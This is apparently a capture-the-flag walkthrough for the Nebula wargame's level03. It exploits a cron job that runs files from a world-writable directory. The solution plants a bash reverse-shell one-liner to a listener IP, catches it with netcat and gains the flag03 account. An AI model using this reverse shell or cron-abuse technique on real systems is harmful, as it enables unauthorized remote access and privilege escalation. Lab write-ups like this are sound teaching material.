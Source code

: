 # Level03

> Check the home directory of **flag03** and take note of the files there.
>
> There is a crontab that is called every couple of minutes.
>
> To do this level, log in as the **level03** account with the password level03. Files for this level can be found in /home/flag03.

#### Solution

```bash
level03@nebula:/home/flag03$ ls -la
total 6
drwxr-x--- 3 flag03 level03  103 2011-11-20 20:39 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag03 flag03   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag03 flag03  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag03 flag03   675 2011-05-18 02:54 .profile
drwxrwxrwx 2 flag03 flag03     3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03    98 2011-11-20 21:22 writable.sh
level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

So, here's a directory `writable.d`  owned by flag03(target) and we have read, write and execute permission on it.  A script `writable.sh` is also there which is firstly executing one by one files under that `writable.d` directory and then remove it.

What if we create a malicious bash script inside that folder, so that whenever that `writable.sh` triggered by flag03(cronjob), the script we made will executed and so, that we will gain shell as flag03.

```bash
level03@nebula:/home/flag03$ cd writable.d/
level03@nebula:/home/flag03/writable.d$ echo '/bin/bash -i >& /dev/tcp/192.168.117.128/4445 0>&1' > script.sh
level03@nebula:/home/flag03/writable.d$ chmod +x script.sh
level03@nebula:/home/flag03/writable.d$ ls -la
total 4
drwxrwxrwx 1 flag03  flag03  60 2025-09-25 02:24 .
drwxr-x--- 1 flag03  level03 60 2011-11-20 20:39 ..
-rwxrwxr-x 1 level03 level03 51 2025-09-25 02:24 script.sh
```

And we got reverse shell on the listener.

```bash
┌──(ghost㉿kali)-[~]
└─$ rlwrap -f . -r nc -nvlp 4445
listening on [any] 4445 ...
connect to [192.168.117.128] from (UNKNOWN) [192.168.117.140] 51475
bash: no job control in this shell
flag03@nebula:~$ id
id
uid=996(flag03) gid=996(flag03) groups=996(flag03)
flag03@nebula:~$ getflag
getflag
You have successfully executed getflag on a target account
```
